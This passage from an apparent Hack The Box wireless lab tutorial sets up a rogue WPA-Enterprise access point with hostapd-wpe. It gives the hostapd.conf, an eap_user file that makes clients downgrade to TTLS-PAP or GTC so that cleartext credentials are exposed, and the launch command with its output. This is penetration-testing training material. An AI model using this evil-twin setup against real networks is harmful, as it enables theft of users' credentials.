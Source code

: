 To get started, we need to create a hostapd.conf file with the following content:

```configuration
# 802.11 Options
interface=wlan1
ssid=HTB-Wireless
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user

# Certificates

ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
private_key_passwd=whatever
dh_file=dh.pem

```

Next, to gain refined control over EAP method negotiation between our fake access point and the client, we need to create the `hostapd.eap_user` file referenced in our hostapd.conf file for Mana with the following content:

```configuration
* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAP "challenge1234" [2]

```

With this `hostapd.eap_user` file, we instruct client devices attempting to join our network to use `TTLS-PAP` as their authentication method. In 802.1x security, the client and access point negotiate which method to use. By specifying the order of methods—starting with TTLS-PAP, then GTC, followed by TTLS-CHAP, TTLS-MSCHAP, and so on-we can potentially trick vulnerable client devices into using TTLS-PAP or GTC, thereby exposing their cleartext identity and credentials. Additionally, we specify the challenge password `challenge1234`, which was used in the generation of our server's private keys.

At this stage, we can start the rogue access point using `hostapd-wpe` with the following command:

```shell
sudo hostapd-wpe -c -k hostapd.conf

rfkill: Cannot open RFKILL control device
random: Only 15/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED

```
